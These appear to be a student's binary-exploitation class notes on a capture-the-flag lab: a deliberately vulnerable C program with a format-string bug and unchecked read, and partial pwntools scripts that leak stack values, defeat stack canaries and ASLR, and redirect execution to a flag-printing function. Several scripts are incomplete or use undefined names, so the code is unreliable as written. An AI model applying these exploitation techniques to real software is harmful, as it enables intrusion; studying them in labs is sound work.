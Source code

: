 ```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define INPUT_SIZE 8

//win function!!
void playaudio() {
	int fd;
	char buffer[64];

	if((fd = open("./flag.txt", O_RDONLY)) < 0){
		perror("open failed!\n");
		exit(1);
	}

	int c = read(fd, buffer, 64);
	write(STDOUT_FILENO, buffer, c);

	exit(0);
}

void calibrate(){
	char buffer[{{buffsize}}];

	fgets(buffer, INPUT_SIZE, stdin);
	printf(buffer); //format string: can cause information leak
	read(STDIN_FILENO, buffer, 64);
}

int main(int argc, char **argv){
	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	printf("%p\n", &playaudio);
	calibrate();
}
```
**connect to server to run the binary**
```bash
nc cs4401shell.walls.ninja 50203
```
WHat does this mean?
- reduces the information we have. 
- Can't create env variables
- cant run in gdb


How do we hijack the control flow?
- `read()`: reads until it hits EOF or the number of bytes specified
	- doesn't stop at newline characters
- Creates an issue if the size of the buffer is less than the number of bytes read

### Format strings
- when passed into printf, can be used to print out data
- %x can print out hex data, on the stac

dollar-sign notation
- can be used to specify order
- 

`format0.pyt`
```python
from pwn import *
import os
  

elf = ELF('./format0-64')
context.binary=elf
context.log_level = 'debug'
context.arch = 'amd64'

debug_mode=True

#leak info on the stack
def leak(param_num):
	p = process(elf)
	p.recvline()
	p.sendline(f"%{param_num}$p")
	leak_raw = p.recvline().strip()
	leak_val = int(leak_raw, 16)
	p.sendline(flat({16:0xdeadbeef}))
	p.wait()
	return leak_val

offset = 59

dbg = cyclic(300)
#print(cyclic_find("raaa"))


if debug_mode == True:
	


for param_num in range(1, 16):
	try:
		with context.silent:
			leak_value = leak(param_num)
		log.info("Value leaked at param {param_num}: {hex(leak_value)}")
		pass
	except Exception as e:
		log.info("Failed to leak param number {param_num}")

p = gdb.debug(elf, gdbscript = '''
		b *main + 125
		shell tmux select-layout main-vertical
		shell tmux swap-pane -U
	''')

p.sendline(b'a')
p.sendline(flat({16:0xdeadbeef})) #replace with the return addr of the win function

p.recvall()
p.wait()
	
```

## Summary
- took advantage of a buffer overflow without access to running the source in gdb
- allows us to leak canaries

## Hardmode: Stack Canaries and ASLR
1. Leak value at 11th paramter (`%11$p`)
2. Store that in a variable to put in the exploit string
3. Proposed memory Leak string: `"%11$p %13$p"`
	1. Not enough space
```python
def leak(param_num):
	p = remote('cs4401shell.walls.ninja', 9898)
	p.recvline()
	p.sendline(f"%{param_num}$p")
	leak_raw = p.recvline().strip()
	leak_val = int(leak_raw, 16)
	p.sendline(b'a')
	p.recvall()
	p.wait()
	return leak_val

#param numbers for memory leaks
buff_start = 6
canary = 11
ret_addr = 13

win_addr = stoi(p.recvline())
log.info(f"Win Address: {hex(win_addr)}")

p.sendline(f"%{canary_param}$p".encode())
canary = stoi(p.recvline())
log.info(f"Canary: {hex(canary)}")

exploit_flat = flat({
		canary_offset:canary,
		ret_offset:win_addr+5
})

assert b'\n' not in exploit_str
```
only a little more complicated 


#### What if we get rid of the first info leak
`printf("%p\n", &playaudio)`
- Theres guessing involved, but you don't have to guess the entire address space
- Hangman Solution: See Stack Canary Notes
- We don't have to overwrite the whole return address, we only have to overwrite the address that we want!
- Only overwrite the middle 2.5 bytes
- ${2}^{12}$ possibilities


- Stack Canary: Will look like a hex representation of ascii

Add new instructions to prologue
- use of fs register
- use of `_stack_chk_fail` function
	- calls if comparison between known canary value and the value in that spot of the stack fails
- Where is the Stack Canary
	- `mov QWORD PTR [rbp-0x8], rax`
	- one byte before `rbp`
- useful because lightweight


**Bypassing Canary**
- leak memory to find the canary!
- fork(): make a fork of the process, will have the same stack canary
	- keep forking and guessing the canary until you get the correct canary
	- ex: Apache webserver forks off a child for a web request
	- Guessing Canaries without memory leak
		- Like Hangman
		- Overwrite each byte individually, so part of the canary remains the same, allowing you to guess one byte at a time
		- More efficient than brute-force guessing for each possible combination
- Stack Canaries are only inserted if the buffer is > 8bytes

### ASLR
- Adress Space Layout Randomization
- Course grained: only changes where the different sections start
	- ex: moving books in a bookshelf
- Doesn't change the order of anything inside the regions
- Fine-Grained: shuffle things inside the different sections
- What makes a good guess for a return address
	- first byte is the same, last few bytes are the same
	- only about three bytes that can vary


